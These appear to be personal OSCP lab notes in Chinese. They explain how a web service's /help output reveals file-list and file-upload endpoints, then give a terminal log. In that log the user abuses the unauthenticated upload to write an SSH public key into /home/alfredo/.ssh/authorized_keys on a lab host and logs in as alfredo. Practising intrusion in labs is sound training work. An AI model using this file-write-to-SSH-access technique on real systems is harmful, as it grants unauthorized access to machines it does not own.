 - 你贴出的 `/help` 输出本身就包含了说明文字（JSON 里每一项后面有冒号说明）——例如：
    
    `"GET /file-list?dir=/tmp : List of the files" "POST /file-upload : Upload files"`
    
    这两行文字直接写明了用途：`List of the files`（列出文件）和 `Upload files`（上传文件）。这是最直接的证据。
    
- **HTTP 方法（GET vs POST）也在说明里**
    
    - `GET /file-list?...`：HTTP 的 GET 通常用于**读取/获取**资源，和“列目录/读取列表”语义一致。
        
    - `POST /file-upload`：HTTP 的 POST 常用于**提交/上传/创建**数据，和“上传文件”语义一致。  
        方法 + 路径名一起强化了我对用途的判断。
        
- **查询参数 `?dir=/tmp` 很能说明问题**  
    `/file-list?dir=/tmp` 中出现 `dir`（directory 的缩写）且值是 `/tmp`，这正是“要列出哪个目录”的典型参数，说明这个端点接受目录路径并返回该目录下的文件列表。
    
- **这是常见的命名约定**  
    在很多 web 服务或小工具里，开发者会用 `file-list`, `list-files`, `files`, `upload`, `file-upload` 这种直观命名，含义通常和名字一致。结合你给的帮助文本，几乎可以直接确定。

```
curl -X POST -F "file=@/home/sinner/Documents/oscp/test.txt" -F filename="/tmp/test.txt" http://192.168.185.249:33414/file-upload

```

这里做了两件事：

- `-F "file=@.../test.txt"` → 把本地文件作为 **file 字段**上传。
    
- `-F "filename=/tmp/test.txt"` → 同时告诉服务器，这个文件在远端要保存成 **/tmp/test.txt**。
`-X POST` — 这是 `curl` 的一个选项，意思是**强制把 HTTP 方法设为 POST**。
某些 `curl` 选项（比如 `-d/--data`、`-F/--form`）会**自动把方法设为 POST**，所以在这些情况下你**不必**加 `-X POST`

[Sep 24, 2025 - 07:02:12 (EDT)] exegol-default /workspace # curl -X POST -F "file=@/workspace/a.txt" -F filename="/tmp/a.txt" http://192.168.249.249:33414/file-upload

{"message":"File successfully uploaded"}
[Sep 24, 2025 - 07:02:46 (EDT)] exegol-default /workspace # ssh-keygen                          
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:sKSOydTEs9crtxH3vjtH1W+CEMFTz+b8BMNFf18r0xI root@exegol-default
The key's randomart image is:
+---[RSA 3072]----+
|         ..o.  .o|
|   .      +  + ..|
|    + o    o EB =|
|   o = +  .  +ooB|
|  . + o S .. =o++|
| o + .   + .. *oo|
|  + . . +   .. o.|
|       o o .. .  |
|        .   +=   |
+----[SHA256]-----+
[Sep 24, 2025 - 08:38:20 (EDT)] exegol-default /workspace # cd /root
[Sep 24, 2025 - 08:38:28 (EDT)] exegol-default ~ # ls
bettercap.history  bin  etc  nuclei-templates
[Sep 24, 2025 - 08:38:30 (EDT)] exegol-default ~ # chmod 600 /root/.ssh/id_rsa     
[Sep 24, 2025 - 08:40:18 (EDT)] exegol-default ~ # cp /root/.ssh/id_rsa.pub /workspace/a.txt
[Sep 24, 2025 - 08:42:22 (EDT)] exegol-default ~ # curl -X POST -F "file=@/workspace/a.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://192.168.249.249:33414/file-upload

{"message":"File successfully uploaded"}
[Sep 24, 2025 - 08:44:42 (EDT)] exegol-default ~ # ssh alfredo@192.168.249.249 -i /root/.ssh/id_rsa -p 20500

[Sep 24, 2025 - 08:46:54 (EDT)] exegol-default /workspace # ssh alfredo@192.168.249.249 -i /root/.ssh/id_rsa -p 25022
The authenticity of host '[192.168.249.249]:25022 ([192.168.249.249]:25022)' can't be established.
ED25519 key fingerprint is SHA256:kflJUZqQzlDWxXgGuod+HGsJPk++nvt5ZyveJgx1jgQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.249.249]:25022' (ED25519) to the list of known hosts.
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ 